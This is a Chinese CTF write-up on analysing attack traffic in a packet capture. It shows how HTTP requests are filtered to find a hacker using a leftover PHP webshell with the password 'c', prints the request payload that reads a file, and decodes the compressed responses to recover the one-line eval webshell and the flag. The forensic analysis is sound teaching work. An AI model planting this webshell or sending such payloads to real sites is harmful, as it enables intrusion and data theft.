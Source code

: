 
#### 攻击流量分析
该题目目的在于考察选手对常见的WEB攻击手法的了解程度
该题目场景为: 
```
某黑客对网站进行敏感信息泄露扫描然后发现别的黑客遗留的后门之后进行利用, 获取 flag
```
打开流量包过滤 HTTP 请求
![image.png](http://upload-images.jianshu.io/upload_images/2355077-5097827cd84f68b2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
黑客首先进行了敏感信息泄露的扫描, 因此响应码中必然会有很多 404, 这些流量并没有用, 因此过滤掉
![image.png](http://upload-images.jianshu.io/upload_images/2355077-379bb7becf282b6a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
得到四条可能有用的流量包
查看对应请求如下: 
![image.png](http://upload-images.jianshu.io/upload_images/2355077-7a65cb5f5ed85629.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
明显为对 `webshell` 的利用, 其密码为 `c`
```
c=print_r(gzcompress(file_get_contents(base64_decode('aW5kZXgucGhw'))));
```
将 flag 内容获取后进行了 gzip 压缩, 然后显示在响应体中

```
➜  ~ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "789cb3b12fc82850482d4bccd150890f720d0c750d0e894e8ed5b4b6b7e3020081de0866".decode("hex")
'x\x9c\xb3\xb1/\xc8(PH-K\xcc\xd1P\x89\x0fr\r\x0cu\r\x0e\x89N\x8e\xd5\xb4\xb6\xb7\xe3\x02\x00\x81\xde\x08f'
>>> __import__("zlib").decompress("789cb3b12fc82850482d4bccd150890f720d0c750d0e894e8ed5b4b6b7e3020081de0866".decode("hex"))
'<?php eval($_REQUEST[c]);?>\n'
>>> __import__("zlib").decompress("789ccbc82c492e49abb6304d32484c354eb4483437b048b234324f4a334c343648494b334e36333531a8e5020018cb0c6c".decode("hex"))
'hitctf{85b0ae3a8a708b927bf1a30dff3c6540}\n'
```
